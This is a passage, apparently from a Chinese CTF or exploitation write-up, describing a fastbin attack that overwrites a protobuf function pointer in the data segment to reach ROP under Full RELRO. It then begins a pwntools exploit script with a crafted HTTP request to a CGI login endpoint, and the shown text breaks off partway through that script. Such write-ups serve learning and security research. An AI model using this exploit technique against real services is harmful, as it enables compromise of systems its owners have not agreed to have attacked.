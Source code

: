 [![](assets/1706771580-c1dcd9378056d4658ea815805afdd80a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240130151309-05afcbcc-bf3f-1.png)

通过以上方式可以构造一个`fastbin attack`。之后可以通过`fastbin attack`去修改 data 段的函数指针，跳转到 ROP 最终完成利用（PS：这里很有趣的一点是，如果没有 protobuf 存储在 data 段上的函数指针，在开启 Full RELRO 的情况下也无法完成利用）

完整的利用脚本如下：

```plain
#!/usr/bin/env python3
from pwn import *
context.arch = "amd64"
context.log_level = "debug"

# POST /cgi-bin/login.cgi HTTP/1.1
# Accept: application/json, */*
# Accept-Encoding: gzip, deflate
# Connection: keep-alive
# Content-Length: 171
# Content-Type: application/json
# Host: 192.168.64.135:8080
# User-Agent: HTTPie/1.0.3
# 
# {"data": "BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ", "timestamp": 61866, "data": "aaaa\u" aaaaaaaabaaaaaaacaaaaaaadaaaaaaa"}

blacklist_dict = {
    b"\b": b"\\b",
    b"\f": b"\\f",
    b"\n": b"\\n",
    b"\r": b"\\r",
    b"\t": b"\\t",

    b";": b"\\u003b",
```
